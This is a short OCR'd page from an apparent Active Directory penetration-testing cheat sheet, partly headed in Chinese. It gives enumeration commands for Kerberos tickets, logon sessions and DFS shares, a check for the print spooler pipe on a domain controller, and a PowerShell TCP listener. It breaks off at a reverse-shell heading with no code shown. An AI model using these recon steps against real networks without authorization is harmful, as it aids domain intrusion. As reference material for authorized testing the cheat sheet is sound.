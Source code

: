 ```
# get DC for currently authenticated session
set l

# get domain name and DC the user authenticated to
klist

# get all logon sessions. Includes NTLM authenticated sessions
klist sessions

# kerberos tickets for the session
klist

# cached krbtgt
klist tgt

# whoami on older Windows systems
set u

# find DFS shares with ADModule
Get-ADObject -filter * -SearchBase "CN=Dfs-Configuration,CN=System,DC=offense,DC=local" | select name

# find DFS shares with ADSI
$s=[adsisearcher]'(name=*)'; $s.SearchRoot = [adsi]"LDAP://CN=Dfs-Configuration,CN=System,DC=offense,DC=local"; $s.FindAll() | % {$_.properties.name}

# check if spooler service is running on a host
powershell ls "\\dc01\pipe\spoolss"
```

### 监听端口(Powershell)

```
# Start listener on port 443
$listener = [System.Net.Sockets.TcpListener]443; $listener.Start();
 
while($true)
{
    $client = $listener.AcceptTcpClient();
    Write-Host $client.client.RemoteEndPoint "connected!";
    $client.Close();
    start-sleep -seconds 1;
}
```

### 获得访问权限

### Reverse Shell One-Liners

#### Bash

